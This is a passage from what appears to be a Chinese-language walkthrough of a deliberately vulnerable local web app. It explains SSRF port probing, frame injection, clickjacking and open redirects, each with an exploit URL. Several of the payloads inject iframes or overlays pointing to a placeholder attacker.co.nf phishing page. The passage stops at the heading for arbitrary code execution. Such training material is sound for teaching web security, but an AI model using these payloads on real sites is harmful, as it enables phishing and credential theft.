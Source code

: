 漏洞地址:    
http://127.0.0.1:65412/?path=

EXPLOIT:

http://127.0.0.1:65412/?path=http://127.0.0.1:80

    如果 IP 地址 127.0.0.1 开放了 80 端口, 那么返回得到的信息, 否则返回一个 500 错误。

4.3.3 Frame Injection (phishing)

Frame注入(钓鱼): 属于XSS的范畴, 将HTML的标签注入到存在漏洞的HTTP响应体中, 如: iframe标签。

漏洞地址:    
http://127.0.0.1:65412/?v=0.2

EXPLOIT:

http://127.0.0.1:65412/?v=0.2<iframe src="http://attacker.co.nf/i/login.html" style="background-color:white;z-index:10;top:10%;left:10%;position:fixed;border-collapse:collapse;border:1px solid #a8a8a8"></iframe>

4.3.4 Frame Injection (content spoofing)

Frame注入(内容欺骗): 同上原理。

漏洞地址:    
http://127.0.0.1:65412/?v=0.2

EXPLOIT:

http://127.0.0.1:65412/?v=0.2<iframe src="http://attacker.co.nf/i/login.html" style="background-color:white;z-index:10;top:10%;left:10%;position:fixed;border-collapse:collapse;border:1px solid #a8a8a8"></iframe>

4.3.5 Clickjacking

点击劫持: 是一种恶意技术，其包括欺骗Web用户让他们认为正在与交互的东西的交互（在大多数情况下通过点击, 这种技术手段运用最多的就是广告）。 这种类型的攻击可以单独使用或与其他攻击结合使用，在受害者与看似无害的网页进行交互时，可能会发送未经授权的命令或泄露机密信息。

EXPLOIT:

http://127.0.0.1:65412/?v=0.2<div style="opacity:0;filter:alpha(opacity=20);background-color:#000;width:100%;height:100%;z-index:10;top:0;left:0;position:fixed;" onclick="document.location='http://attacker.co.nf/'"></div><script>alert("click anywhere on page");</script>

4.3.6 Unvalidated Redirect

未验证的重定向: 当Web应用程序接受不受信任的输入时，可能会导致Web应用程序将请求重定向到包含在不受信任的输入中的URL，从而可能导致未经验证的重定向和转发。 通过将不受信任的URL输入修改为恶意网站，攻击者可能会成功启动网络钓鱼诈骗并窃取用户凭据。 由于修改链接中的服务器名称与原始网站相同，因此网络钓鱼尝试可能具有更可信的外观。 未验证的重定向和转发攻击也可用于恶意制作一个URL，该URL将通过应用程序的访问控制检查，然后将攻击者转发到他们通常无法访问的特权功能。

漏洞地址:    
http://127.0.0.1:65412/?redir=

EXPLOIT:

http://127.0.0.1:65412/?redir=http://attacker.co.nf

4.3.7 Arbitrary Code Execution

任意代码执行: 开发人员没有严格验证用户输入的数据, 在某些特殊业务场景中, 用户可构造出恶意的代码或系统命令, 来获得服务器上的敏感信息或者得到服务器的控制权限。
